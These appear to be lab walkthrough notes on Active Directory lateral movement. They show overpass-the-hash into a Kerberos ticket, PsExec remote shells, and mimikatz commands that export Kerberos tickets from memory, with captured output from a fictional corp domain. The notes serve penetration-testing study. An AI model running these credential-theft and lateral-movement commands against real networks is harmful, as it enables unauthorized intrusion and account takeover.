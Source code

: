 We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM) such as the official PsExec application from Microsoft.

Let's try that now, running **.\PsExec.exe** to launch **cmd** remotely on the \\files04 machine as _jen_.

```shell
PS C:\Windows\system32> cd C:\tools\SysinternalsSuite\
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
FILES04
```

#### Pass the Ticket (Stealing TGT and using it to authenticate through Kerberos)

```shell
PS C:\Windows\system32> whoami
corp\jen
PS C:\Windows\system32> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.
At line:1 char:1
+ ls \\web04\backup
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\web04\backup:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Confirming that _jen_ has no access to the restricted folder, we can now launch mimikatz, enable debug privileges, and export all the TGT/TGS from memory with the **sekurlsa::tickets /export** command.

```
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami